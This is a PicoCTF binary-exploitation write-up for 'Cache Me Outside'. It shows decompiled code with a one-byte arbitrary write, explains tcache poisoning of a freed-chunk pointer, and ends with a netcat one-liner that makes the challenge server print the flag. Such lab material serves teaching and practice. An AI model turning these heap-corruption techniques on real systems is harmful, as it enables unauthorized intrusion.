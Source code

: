# 🧠 PicoCTF: Cache Me Outside

> **Category:** Binary Exploitation  
> **Vulnerability:** Heap Manipulation + One-Byte Overwrite  
> **Concepts:** Tcache Poisoning, Arbitrary Memory Write, Heap Metadata Abuse

---

## 🔎 Overview

You're given a binary that allows you to **edit one byte** of memory at a controlled offset from a heap-allocated buffer. The flag is read into memory and stored in multiple heap chunks. Your goal is to exploit this one-byte overwrite to **redirect a heap allocation** and cause the flag to be printed.

---

## 📜 Decompiled Code (Vulnerable Logic)

```c
stream = fopen("flag.txt", "r");
fgets(s, 64, stream);  // Flag read into buffer `s`

// Allocate 7 chunks on heap with "Congrats! Your flag is: <flag>"
for (i = 0; i <= 6; ++i) {
    dest = malloc(0x80);
    if (!v8) v8 = dest;  // Save first chunk pointer
    *(_QWORD *)dest = 0x73746172676E6F43; // "Congrats"
    strcpy(dest + 8, "! Your flag is: ");
    strcat(dest, s);  // Append flag
}

v11 = malloc(0x80);
strcpy(v11, "Sorry! This won't help you: ");
strcat(v11, src);

free(dest);  // Free 7th flag chunk
free(v11);   // Free decoy chunk

puts("You may edit one byte in the program.");
scanf("%d", &v6);  // Read offset
scanf(" %c", &v5); // Read byte value

v8[v6] = v5;  // 🧨 One-byte arbitrary write

v12 = malloc(0x80);  // Reuses freed chunk
puts(v12 + 16);      // 🟢 Print data at v12 + 16
```

---

## ⚠️ Vulnerability Explained

### ❗ One-byte Arbitrary Write

- The program allows you to write `v5` at `v8[v6]`.
- Since `v6` is **signed**, you can give a **negative value**, writing **before** the heap buffer.

### 📌 Key Insight

- After freeing two chunks, the freed chunk addresses are stored in the **tcache freelist**.
- That free list is a singly linked list, each entry storing a pointer to the next chunk (`fd`).
- By overwriting the **least significant byte** of a freed chunk pointer (in tcache), you can **redirect** `malloc()` to return a controlled chunk.

---

## 🧠 Exploitation Strategy

### 🎯 Goal:
Make the next `malloc(0x80)` return a chunk that already contains:
```
Congrats! Your flag is: <flag>
```

### 💡 How?
- Overwrite the **LSB** of the first `tcache` entry using:
  ```c
  v8[-5144] = '\x00';
  ```
- This aligns the pointer to point to an earlier heap chunk containing the flag message.
- The next `malloc(0x80)` returns that chunk.
- Since the program does:
  ```c
  puts(v12 + 16);
  ```
  it **prints the flag**, skipping the `"Congrats! Your "` prefix.

---

## ✅ Final Exploit Command

```bash
{ echo "-5144"; printf "\x00"; } | nc mercury.picoctf.net 34499
```

### 🟢 Output:
```
You may edit one byte in the program.
Address: Value: 
flag is: picoCTF{--------------------------}
```

### 🔍 Why It Works:

| Step | What Happens |
|------|---------------|
| `-5144` | Writes **5144 bytes before `v8`** into tcache freelist |
| `\x00`  | Null-byte write to LSB of a freelist pointer |
| `malloc(0x80)` | Returns flag-containing chunk |
| `puts(v12 + 16)` | Skips 16 bytes and prints the flag |

---

## 🏁 Conclusion

By understanding the heap layout and exploiting a **one-byte arbitrary write**, we redirected the heap allocator to return a chunk that already held the flag, leading to successful exfiltration of the secret. This is a classic example of **tcache poisoning with a one-byte overflow**.

